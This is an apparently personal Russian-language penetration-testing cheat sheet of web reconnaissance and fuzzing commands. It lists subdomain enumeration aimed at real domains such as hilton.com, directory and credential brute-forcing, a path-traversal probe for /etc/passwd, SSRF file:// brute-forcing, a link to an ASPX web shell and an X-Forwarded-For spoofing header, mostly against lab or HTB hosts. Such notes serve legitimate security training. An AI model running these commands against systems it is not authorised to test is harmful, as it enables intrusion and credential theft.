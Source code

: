 # Разведка поддоменов из свободных ресурсов
	
 ФОТОН
    https://spy-soft.net/photon-web-crawler-osint/

    - через DNS
    
    subfinder -d hilton.com
    
    sublist3r -d hilton.com
	--- Поиск доменов по ip
    https://dnsdumpster.com/

# Поиск ссылок из адреса или домена

	xurlfind3r -d av.ru -o results

# Брут директрий и доменов

Основной словарик каталогов

https://github.com/mxdelta/SecLists/blob/master/Discovery/Web-Content/big.txt

утилиты

wpscan --url://192.168.50.200/wordpress/ --wp-content-dir -at -eu  (все директории и все плагины для вордпресс)

gobuster dir -u http://192.168.50.13 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -k -x txt,html,php,css,js,sh,py,cgi,db -t 50

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -u https://watch.streamio.htb/ -x php

gobuster dir -u 10.129.249.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html,bak,txt

gobuster vhost --append-domain -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://thetoppers.htb 

gobuster dns -w word.txt -d hilton.com -i (брут по днс)


ffuf -u http://10.10.11.187 -H "Host: FUZZ.flight.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fs 7069


---- Брут с автоматической рекурсией

	feroxbuster -u http://internal.analysis.htb -w /opt/SecList/Discovery/Web-Content/raft-small-words-lovercase.txt -x php -o output.txt

	Жмем Enter и пишем ----> c -f 3-5,8,9  (это исключит рекрсивный поиск в этих каталогах)

 
# фазинг переменных в GET запросе

wfuzz -c -u 'http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test' -w /usr/share/wfuzz/wordlist/general/big.txt

ffuf -c -r -u 'http://192.168.50.205/secret/evil.php?FUZZ=../../../../etc/passwd' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fs 0

ffuf -c -u 'http://internal.analysis.htb/users/list.php?FUZZ=test' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -fw 2 (-fs 17 ----фильтр длинный ответа)

ffuf  -u 'http://10.10.11.173/reports.php?report=FUZZ' -w numbers.txt -fs 0 -mr 'Disclosure Information'

( -mr - искать совпадения)

# Фазинг переменных в POST запросе

ffuf -request req.txt -request-proto http -w /usr/share/wordlists/SecLists/Fuzzing/special-chars.txt -fs 724,727

где req.txt - захваченный POST запрос из BURPA

wfuzz -u http://11.11.11.11/centrion/api/index.php?action=autenticate -d ‘username=admin&password=FUZZ’ -w /wordlist -hc 403


# сканирование на веб дырки

nikto -url http://10.10.217.189/

# Веб-скрейпинг
	Поиск скриптов JScript на страницах
	
 	go install github.com/003random/getJS/v2@latest
	# добавление в PATH, если раньше не добавлял
	echo "export PATH=\"$HOME/go/bin:\$PATH\"" >> ~/.zshrc
	source ~/.zshrc
 
	getJS --url <URL>

# TruffleHog — автоматизируем поиск в коде
	sudo apt install trufflehog 

 	TruffleHog filesystem <название директории>

  	trufflehog git <ссылка на репозиторий> --only-verified
   

# Web Shell

https://github.com/jivoi/pentest/blob/master/shell/insomnia_shell.aspx

# словарик для бурпа - к примеру заголовки

	https://github.com/PortSwigger/param-miner/tree/master

 # Смена IP при запрсе 

 	X-Forwarded-For: 1

# Брут файловой системы чере ssrf

	ffuf -u http://10.124.1.237/convert.php?url=file://FUZZ -w ~/wordlists/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt  -e .php,.html,.txt,.zip,.gz,.tar,.dat,.log,.tar.gz,.sql,.rar,.swp,.bak,.asp,.aspx,.js,.img,.png,.jpeg -fs 1018
